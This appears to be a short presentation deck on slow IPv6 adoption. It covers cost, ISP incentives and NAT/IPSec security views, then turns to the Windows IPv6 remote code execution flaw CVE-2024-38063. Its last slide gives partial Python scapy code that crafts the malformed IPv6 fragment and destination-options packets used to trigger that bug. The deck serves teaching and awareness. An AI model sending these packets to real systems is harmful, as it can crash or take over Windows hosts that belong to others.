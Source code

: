 <footer class="absolute bottom-0 left-0 right-0 p-2">
{{ $nav.currentPage }} / {{ $nav.total }}
</footer>


---
layout: default
---
# Issues:
Why has IPV6 been so slow to adopt?
- Expensive dual compatible machinery (still in early adoption phase) <-- AWS is pushing harder though. IPV4 is being charged, IPV6 is free -->
- The cost incentives don't line up for ISPs (economies of scale disincentivize the disruption)
- Security concerns
  - Because in IPV6 IPSec can be built in, data authentication can be built in. However NAT provides valuable insight to the calls moving through network/transport layers.
  - Some rely NAT instead of placing the burden on the firewall leading to a misconception that IPV4 is less secure.
  - early adoption risk


---
layout: iframe-right
url: https://www.malwaretech.com/2024/08/exploiting-CVE-2024-38063.html
---
# CVE-2024-38063
- RCE In Windows

There is still a lot to be learned and worked through on IPV6

---
layout: full
---

```python
from scapy.all import *

iface=''
ip_addr=''
mac_addr=''
num_tries=20
num_batches=20

def get_packets_with_mac(i):
    frag_id = 0xdebac1e + i
    first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

def get_packets(i):
    if mac_addr != '':
        return get_packets_with_mac(i)
    frag_id = 0xdebac1e + i
    first = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
```